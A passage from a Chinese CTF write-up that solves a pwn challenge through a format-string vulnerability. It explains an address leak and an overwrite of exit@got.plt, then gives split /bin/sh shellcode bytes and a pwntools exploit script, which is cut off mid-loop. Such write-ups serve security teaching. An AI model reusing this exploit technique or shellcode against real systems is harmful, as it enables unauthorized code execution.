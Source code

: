 ```python
secret = get_secretpass(password)
p.sendline(secret)
print p.recvline()
```

## Pwn

认证完下面一个任务就是直接要求pwn，有点蒙就先来看看checksec：

![][7]

有个漏洞就随便打的节奏，程序不算多可以找到漏洞点为一个字符串格式化漏洞：

![][8]

而且还在栈上有拷贝的内容，也就意味着通过这个字符串格式化漏洞可以实现任意地址读写。我们的shellcode只能放到推文中，也就是堆上的地址，而且是16个字节的单向链表，限制条件有点多，直接从栈上读取tweet_tail的地址有些繁琐，更简单的是在print_tweet函数中有为管理员输出链表地址的调试信息，稍加利用即可：

![][9]

那么写地址呢，把eip劫持到哪里呢，为了方便这里就使用覆盖GOT的方法，因为GOT的地址我们是可以通过readelf直接得到的，每一次printf写的payload限制为16字节，所以一次写一个字节刚刚好，覆盖`exit@got.plt`为shellcode起始地址就可以了。

最后一个问题就是shellcode布局，最短的我也要23字节，超过了一条推文的长度，因为任何推文的地址都可以得到，所以分成两段即可：

```
part1_addr: xor eax, eax; push eax; push 0x68732f2f; push part2_addr; ret
part2_addr: push 0x6e69622f; mov ebx, esp; mov ecx, eax; mov edx, eax; mov eax, edx; int 0x80
```

pwntools汇总如下，exp中需要注意的小问题详见代码：

```python
#0x0804d03c
#context.log_level = 'debug'
shellcode_part1 = "\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
shellcode_part2 = "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
p.sendline(' ')
p.recvuntil('Choice: ')
p.sendline('1')
p.recvuntil('bytes): ')
p.sendline(shellcode_part1)
p.recv()
p.sendline(' ')
p.recvuntil('Choice: ')
p.sendline('6')
p.sendline(' ')
p.recvuntil('Choice: ')
p.sendline('2')
part1_addr = p.recvregex('Address: 0x(.{8})').strip()[-10:]
shellcode_part2 += "\x68" + p32(int(part1_addr, 16)) + "\xc3\x90" 
p.recv()
p.sendline(' ')
p.recvuntil('Choice: ')
p.sendline('1')
p.recvuntil('bytes): ')
p.sendline(shellcode_part2)
p.recv()
p.sendline(' ')
p.recvuntil('Choice: ')
p.sendline('2')
part2_addr = p.recvregex('Next: 0x(.{8})').strip()[-10:]
p.recv()
part2_addr = p32(int(part2_addr, 16))
for i in xrange(4):
    if ord(part2_addr[i]) < 5:
```

[1]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8c7x50j20k6053dgl.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8daxttj20k40a20tv.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8e2x3dj20k104nq3g.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8f79unj20k104hjri.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fpbl8gmrlqj20k105gq3i.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8hjp4zj20py08jq3g.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8i9zycj20i30410t3.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8jbdu4j20kd09dwem.jpg
[9]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8l9yv1j20iu05ct8p.jpg
[10]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8m2y7sj20le093aao.jpg
